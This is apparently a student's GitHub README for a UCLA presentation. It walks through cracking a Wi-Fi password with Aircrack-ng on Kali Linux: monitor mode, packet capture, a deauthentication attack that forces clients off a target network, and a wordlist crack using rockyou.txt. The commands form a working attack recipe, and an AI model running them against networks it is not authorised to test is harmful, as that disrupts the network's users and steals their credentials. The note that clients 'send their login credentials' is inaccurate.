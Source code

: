 # UCLA Final Presentation: Aircrack-ng on Kali Linux
Verify airmon-ng has no issues:
<pre><code>sudo airmon-ng check</code></pre>

Determine name of wireless adapter:
<pre><code>sudo iwconfig</code></pre>

Enable monitor mode in the Wi-Fi card:
<pre><code>sudo airmon-ng start wlan0</code></pre>
  - Do not close terminal.

Capture the network packets:
<pre><code>sudo airodump-ng wlan0mon</code></pre>

Identify target network an note BSSID (MAC address) and channel
<pre><code>sudo airodump-ng --bssid (BSSID) -c (channel) -w (capture file output name) wlan0mon</code></pre>

While packets are capturing, open a seperate terminal and run the command:
<pre><code>sudo aireplay-ng --deauth 100 -a (BSSID) wlan0mon</code></pre>
  - Sends deauthentification packets to the target netowrk and forces clients to reconnect and sent their login credentials

Stop catpure with "ctrl + c"

Unzip rockyou.txt and create path to wordlist:

Locate rockyou.txt in Kali Linux:
<pre><code>cd /usr/share/wordlists</code></pre>
<pre><code>ls</code></pre>
It will present as <pre><code>rockyou.txt.gz</code></pre>
Unzip rockyou.txt:
<pre><code>sudo gunzip rockyou.txt.gz</code></pre>

Nano into rockyou.txt and add designated password

Save document

Crack password:
<pre><code>sudo aircrack-ng -b (BSSID) -w (path to wordlist) (captire file name).cap</code></pre>
